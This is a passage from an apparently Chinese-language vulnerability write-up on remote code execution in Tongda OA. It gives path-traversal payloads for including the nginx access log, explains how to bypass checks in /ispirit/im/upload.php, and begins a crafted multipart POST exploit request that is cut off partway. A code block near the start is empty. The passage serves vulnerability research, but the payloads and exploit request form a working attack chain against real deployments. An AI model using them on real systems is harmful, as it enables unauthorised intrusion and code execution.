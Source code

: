 ```php

```

有些版本在包含$url的时候也会有判断，比如一定要包含general,ispirit,module其中一个，

可以通过../general/../../nginx/logs/oa.access.log绕过

如果不传P就可绕过第一个判断，第二个判断需要先传入一个json，可以把url放到json里面，也可以把url参数单独传，只要url不为空就会进入第一个包含

总结一下常规的payload

```php
json={&quot;url&quot;: &quot;../../nginx/logs/oa.access.log&quot;}
json{}=&amp;url=../../nginx/logs/oa.access.log
json{}=&amp;url=../general/../../nginx/logs/oa.access.log
```

0x05 文件上传
---------

<http://127.0.0.1/ispirit/im/upload.php>

![](../../../images/web/vulnerability/tongoa_rce_2017/picture1.png)

首先传入P绕过第一个判断

不一定要获取session，主要是要绕过这个判断不走到auth.php里面

DEST\_UID的两个判断不是关键，只要$UPLOAD\_MODE为2都是可以走出去，不像有些文章说的一定不能等于0

![](../../../images/web/vulnerability/tongoa_rce_2017/picture2.png)

但是upload里面进去找了半天还是不知道为什么就上传成功了

upload-&gt;add\_attach-&gt;$ATTACH\_ENCRYPT\["ENABLE"\] == 1

主要就是走这么一条路，ENABLE=1就上传成功了，但是不知道上传文件的代码在哪，也不知道ENABLE怎么变成1的，果然还是太弟弟了下，希望有大佬看到了带带我

这边就不继续看下去了，upload主要就是过滤后缀，不过因为有文件包含，后缀白名单里面选一个就行

现在看下来需要这几个参数

```php
UPLOAD_MODE
P
DEST_UID    (可为空，但UPLOAD_MODE必须为2)
ATTACHMENT
```

就可以构造exp了

```php
POST /ispirit/im/upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 626
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=---123
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

---123
Content-Disposition: form-data; name=&quot;UPLOAD_MODE&quot;

2
---123
Content-Disposition: form-data; name=&quot;P&quot;

```